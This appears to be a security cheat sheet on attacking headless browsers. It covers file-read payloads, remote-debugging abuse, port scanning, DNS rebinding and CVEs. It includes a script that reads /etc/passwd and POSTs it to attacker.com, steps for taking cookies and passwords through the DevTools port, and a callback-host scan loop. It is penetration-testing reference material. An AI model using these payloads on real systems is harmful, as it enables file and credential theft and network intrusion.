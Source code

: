 # Headless Browser

> A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.
> Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.

## Summary

* [Headless Commands](#headless-commands)
* [Local File Read](#local-file-read)
* [Remote Debugging Port](#remote-debugging-port)
* [Network](#network)
    * [Port Scanning](#port-scanning)
    * [DNS Rebinding](#dns-rebinding)
* [CVE](#cve)
* [References](#references)

## Headless Commands

Example of headless browsers commands:

* Google Chrome

    ```ps1
    google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
    ```

* Mozilla Firefox

    ```ps1
    firefox --screenshot https://www.google.com
    ```

* Microsoft Edge

    ```ps1
    "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
    ```

## Local File Read

### Insecure Flags

If the target is launched with the `--allow-file-access` option

```ps1
google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run --disable-web-security -–allow-file-access-from-files --allow-file-access --allow-cross-origin-auth-prompt --user-data-dir
```

Since the file access is allowed, an atacker can create and expose an HTML file which captures the content of the `/etc/passwd` file.

```js
<script>
  async function getFlag(){
    response = await fetch("file:///etc/passwd");
    flag = await response.text();
    fetch("https://attacker.com/", { method: "POST", body: flag})
  };
  getFlag();
</script>
```

### PDF Rendering

Consider a scenario where a headless browser captures a copy of a webpage and exports it to PDF, while the attacker has control over the URL being processed.

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect

    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe

    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```

## Remote Debugging Port

The Remote Debugging Port in a headless browser (like Headless Chrome or Chromium) is a TCP port that exposes the browser’s DevTools Protocol so external tools (or scripts) can connect and control the browser remotely. It usually listen on port **9222** but it can be changed with `--remote-debugging-port=`.

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.

> [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Data stored in the settings (username, passwords, token): `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`

    ```json
    {
        "Browser": "Chrome/136.0.7103.113",
        "Protocol-Version": "1.3",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/136.0.0.0 Safari/537.36",
        "V8-Version": "13.6.233.10",
        "WebKit-Version": "537.36 (@76fa3c1782406c63308c70b54f228fd39c7aaa71)",
        "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/browser/d815e18d-57e6-4274-a307-98649a9e6b87"
    }
    ```

* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`

    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!NOTE]  
> The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.

## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened

**Consideration**:

* Chrome blocks by default a list of "known ports"
* Chrome blocks access to local network addresses except localhost through 0.0.0.0

### DNS Rebinding

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.

1. Chrome will make 2 DNS requests: `A` and `AAAA` records
    * `AAAA` response with valid Internet IP
    * `A` response with internal IP
2. Chrome will connect in priority to the IPv6 (evil.net)
3. Close IPv6 listener just after first response
4. Open Iframe to evil.net
5. Chrome will attempt to connect to the IPv6 but as it will fail it will fallback to the IPv4
6. From top window, inject script into iframe to exfiltrate content

## CVE

Exploiting a headless browser using a known vulnerability (CVE) involves several steps, from vulnerability research to payload execution. Below is a structured breakdown of the process:

Identify the headless browser with the User-Agent, then choose an exploit targeting the browser's component: V8 engine, Blink renderer, Webkit, etc.

* Chrome CVE: [2024-9122 - WASM type confusion due to imported tag signature subtyping](https://issues.chromium.org/issues/365802567), [CVE-2025-5419 - Out of bounds read and write in V8](https://nvd.nist.gov/vuln/detail/CVE-2025-5419)
* Firefox : [CVE-2024-9680 - Use after free](https://nvd.nist.gov/vuln/detail/CVE-2024-9680)

The `--no-sandbox` option disables the sandbox feature of the renderer process.

```js
const browser = await puppeteer.launch({
    args: ['--no-sandbox']
});
```

## References

* [Browser based Port Scanning with JavaScript - Nikolai Tschacher - January 10, 2021](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
* [Chrome DevTools Protocol - Documentation - July 3, 2017](https://chromedevtools.github.io/devtools-protocol/)
* [Cookies with Chromium’s Remote Debugger Port - Justin Bui - December 17, 2020](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
* [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger - Justin Bui - July 16, 2023](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
* [Node inspector/CEF debug abuse - HackTricks - July 18, 2024](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
* [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely - wunderwuzzi - April 28, 2020](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
* [Tricks for Reliable Split-Second DNS Rebinding in Chrome and Safari - Daniel Thatcher - December 6, 2023](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)
* [Too Lazy to get XSS? Then use n-days to get RCE in the Admin bot - Jopraveen - March 2, 2025](https://jopraveen.github.io/web-hackthebot/)
